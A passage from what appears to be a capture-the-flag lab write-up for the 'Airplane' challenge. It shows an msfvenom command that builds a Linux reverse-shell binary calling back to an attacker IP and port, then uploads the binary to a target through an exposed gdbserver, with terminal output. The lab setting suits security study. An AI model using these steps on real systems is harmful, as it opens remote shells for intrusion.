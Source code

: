 ## MsfVenom

We can use [MsfVenom](../../3%20-%20Tags/Hacking%20Tools/MsfVenom.md) to create our payload and make it executable :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.8.162.183 LPORT=1337 PrependFork=true -f elf -o binary.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 106 bytes
Final size of elf file: 226 bytes
Saved as: binary.elf
                                                                                                                              
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ ls   
binary.elf  environ  lfi-service-check.py  passwd
                                                                                                                              
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ chmod +x *.elf
                                                        
```

Now we run it :

```bash
┌──(mdn0x㉿mdn0xonKali)-[~/THM/CHALLENGES/Medium/Airplane]
└─$ gdb binary.elf 
GNU gdb (Debian 16.3-1) 16.3
Copyright (C) 2024 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
Type "show copying" and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<https://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
    <http://www.gnu.org/software/gdb/documentation/>.

For help, type "help".
Type "apropos word" to search for commands related to "word"...
Reading symbols from binary.elf...
(No debugging symbols found in binary.elf)

(gdb) target extended-remote airplane.thm:6048

(gdb) remote put binary.elf /tmp/binary.elf

```
